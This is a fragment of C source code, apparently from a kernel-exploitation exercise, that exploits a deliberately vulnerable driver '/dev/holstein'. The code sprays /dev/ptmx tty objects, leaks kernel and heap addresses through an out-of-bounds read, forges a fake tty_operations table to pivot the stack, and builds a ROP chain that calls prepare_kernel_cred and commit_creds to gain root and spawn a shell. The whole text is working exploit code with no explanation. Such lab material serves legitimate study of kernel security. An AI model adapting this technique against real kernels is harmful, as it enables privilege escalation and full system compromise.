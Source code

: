 ```c
    
    for(int i=0; i < 50;i++){
		fd_spray[i] = open("/dev/ptmx", O_RDONLY|O_NOCTTY);
		if(fd_spray[i]==-1){
			perror("/dev/ptmx");
			exit(EXIT_FAILURE);
		}
	}
	global_fd = open("/dev/holstein",O_RDWR);
	for(int i=50; i < 100;i++){
		fd_spray[i] = open("/dev/ptmx", O_RDONLY|O_NOCTTY);
		if(fd_spray[i]==-1){
			perror("/dev/ptmx");
			exit(EXIT_FAILURE);
		}
	}

    memset(buff,'A', 0x500);
    read(global_fd,buff,0x500);

    for(int i=0;i<0x480 / 8;i++){
		//printf("leaked = 0x%016lx\n" ,*(unsigned long*)(buff + i * 8));
		if((*(unsigned long*)(buff + i * 8) & 0xfff) == 0x880){
			tty_ops = *(unsigned long*)(buff + i * 8);
			continue;
		}
		if((*(unsigned long*)(buff + i * 8) & 0xfff) == 0x438){
			g_buf = *(unsigned long*)(buff + i * 8) - 0x438;
			break;
		}
	}
    //tty_ops = *(unsigned long*)(buff + 0x418);
    //g_buf = *(unsigned long*)(buff + 0x438) - 0x438;
    kbase = tty_ops - 0xc38880;
    pop_rdi = kbase + 0x0d748d;
    pop_rcx = kbase + 0x13c1c4;
    commit_creds = kbase + 0x0744b0;
    prepare_kernel_cred = kbase + 0x074650;
    mov_rdi_rax_rep = kbase + 0x62707b;
    swapgs = kbase + 0x800e26;
    printf("tty_ops: 0x%016lx\n" ,tty_ops);
    printf("kernel base: 0x%016lx\n" ,kbase);
    printf("k_buf : 0x%016lx\n" ,g_buf);

    unsigned long *p = (unsigned long *)&buff[0x400];
    p[12] = kbase + 0x3a478a; //rop_push_rdx_mov_ebp_415bffd9h_pop_rsp_r13_rbp
    *(unsigned long*)(buff + 0x418) = g_buf + 0x400;
    printf("heap overwrite: 0x%016lx\n" ,*p);
    printf("fake pointer function: 0x%016lx\n" ,p[12]);
    printf("fake tty_operation: 0x%016lx\n" ,*(unsigned long*)(buff + 0x418));

    unsigned long *rop = (unsigned long*)&buff;
    *rop++ = pop_rdi;
    *rop++ = 0;
    *rop++ = prepare_kernel_cred;
    *rop++ = pop_rcx;
    *rop++ = 0;
    *rop++ = mov_rdi_rax_rep;
    *rop++ = commit_creds;
    *rop++ = swapgs;
    *rop++ = 0xdeadbeef;
    *rop++ = 0xdeadbeef;
    *rop++ = (unsigned long)shell;
```